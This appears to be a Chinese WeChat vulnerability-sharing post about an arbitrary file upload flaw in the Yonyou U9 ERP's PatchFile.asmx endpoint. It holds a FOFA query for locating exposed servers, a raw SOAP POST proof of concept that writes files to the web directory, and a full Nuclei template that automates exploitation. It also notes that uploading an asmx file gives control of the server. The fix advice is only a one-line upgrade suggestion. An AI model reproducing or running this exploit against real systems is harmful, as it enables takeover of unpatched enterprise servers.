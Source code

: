 #  用友U9 PatchFile.asmx 任意文件上传漏洞

原创 WLF  [ 伟大航路D ](javascript:void\(0\);)

**伟大航路D** ![]()

微信号 gh_c1fdc31f79ef

功能介绍 日常漏洞分享

____

___发表于_

免责声明：文章来源互联网收集整理，请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。

![]()

**![]()**Ⅰ、漏洞描述

U9
cloud聚焦中型和中大型制造企业，全面支持业财税档一体化、设计制造一体化、计划执行一体化、营销服务一体化、项目制造一体化等数智制造场景，赋能组织变革和商业创新，融合产业互联网资源实现连接、共享、协同，助力制造企业高质量发展。

用友U9PathchFile.asmx接口处存在文件上传漏洞，恶意攻击者可能会上传shell文件获取服务器权限，造成安全隐患。

![]()

 **![]()**Ⅱ、fofa语句

  * 

    
    
     title=="        U9-登录    "

  

 **![]()**Ⅲ、漏洞复现  

1、访问，出现以下页面则可能存在此漏洞

  * 

    
    
    http://127.0.0.1/CS/Office/AutoUpdates/PatchFile.asmx?op=SaveFile

  

![]()

POC

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /CS/Office/AutoUpdates/PatchFile.asmx HTTP/1.1Host:127.0.0.1User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64) AppleWebKit/537.36 (KHTML like Gecko) Chrome/44.0.2403.155 Safari/537.36Connection: closeContent-Type: text/xml; charset=utf-8 <?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">  <soap:Body>    <SaveFile xmlns="http://tempuri.org/">      <binData>MTIzNDU2</binData>      <path>./</path>      <fileName>1.txt</fileName>    </SaveFile>  </soap:Body></soap:Envelope>

 **2、构建 POC**

![]()

 **3、访问**  

  * 

    
    
     http://127.0.0.1/CS/Office/AutoUpdates/1.txt

![]()

 **4、也可上传asmx文件获取服务器权限**

 **![]()**Ⅳ、Nuclei-POC  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
     id: yonyou-U9-PatchFile-asmx-uploadfile  
    info:  name: 用友U9PathchFile.asmx接口处存在文件上传漏洞 恶意攻击者可能会上传shell文件获取服务器权限 造成安全隐患  author: WLF  severity: high  metadata:     fofa-query: title=="        U9-登录    "variables:  filename: "{{to_lower(rand_base(10))}}"  boundary: "{{to_lower(rand_base(20))}}"http:  - raw:      - |        POST /CS/Office/AutoUpdates/PatchFile.asmx HTTP/1.1        Host:{{Hostname}}        User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64) AppleWebKit/537.36 (KHTML like Gecko) Chrome/44.0.2403.155 Safari/537.36        Connection: close        Content-Type: text/xml; charset=utf-8                <?xml version="1.0" encoding="utf-8"?>        <soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">          <soap:Body>            <SaveFile xmlns="http://tempuri.org/">              <binData>MTIzNDU2</binData>              <path>./</path>              <fileName>{{filename}}.txt</fileName>            </SaveFile>          </soap:Body>        </soap:Envelope>          
          - |        GET /CS/Office/AutoUpdates/{{filename}}.txt HTTP/1.1        Host: {{Hostname}}        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0  
        matchers:      - type: dsl        dsl:          - status_code==200 && contains_all(body,"123456")

![]()

 **![]()**Ⅴ、修复建议

  

升级至安全版本  

  

 **  
**

 **  
**

  

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

继续滑动看下一个

# 用友U9 PatchFile.asmx 任意文件上传漏洞

原创 WLF  [ 伟大航路D ](javascript:void\(0\);)

轻触阅读原文

![]()

伟大航路D

赞 分享 在看

向上滑动看下一个

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看 分享 留言

